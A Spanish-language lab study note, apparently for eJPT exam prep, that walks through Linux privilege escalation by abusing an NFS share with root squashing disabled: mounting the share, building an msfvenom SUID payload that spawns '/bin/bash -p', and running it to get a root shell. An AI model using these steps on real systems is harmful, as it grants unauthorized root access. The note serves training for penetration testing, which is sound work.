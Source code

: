 
- Los archivos creados mediante NFS heredan el ID del usuario remoto. Si el usuario es root y la eliminación de raíz está habilitada, el ID se establecerá en el usuario "nadie".

- Verifique la configuración del recurso compartido NFS en la máquina virtual Debian:

```
cat /etc/exports
```
Tenga en cuenta que el recurso compartido /tmp tiene desactivada la eliminación de raíces.

- En su caja Kali, cambie a su usuario root si aún no está ejecutando como root:

```
sudo su
```

- Usando el usuario root de Kali, cree un punto de montaje en su caja Kali y monte el recurso compartido /tmp (actualice la IP en consecuencia): mkdir/tmp/nfs montar -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs

```
mkdir /tmp/nfs  
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
```

- Aún usando el usuario root de Kali, genere una carga útil usando msfvenom y guárdela en el recurso compartido montado (esta carga útil simplemente llama a /bin/bash):

```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

- Aún usando el usuario root de Kali, haga que el archivo sea ejecutable y establezca el permiso SUID:

```
chmod +xs /tmp/nfs/shell.elf
```

- De vuelta en la máquina virtual Debian, como cuenta de usuario con pocos privilegios, ejecute el archivo para obtener un shell raíz:

```
/tmp/shell.elf
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]

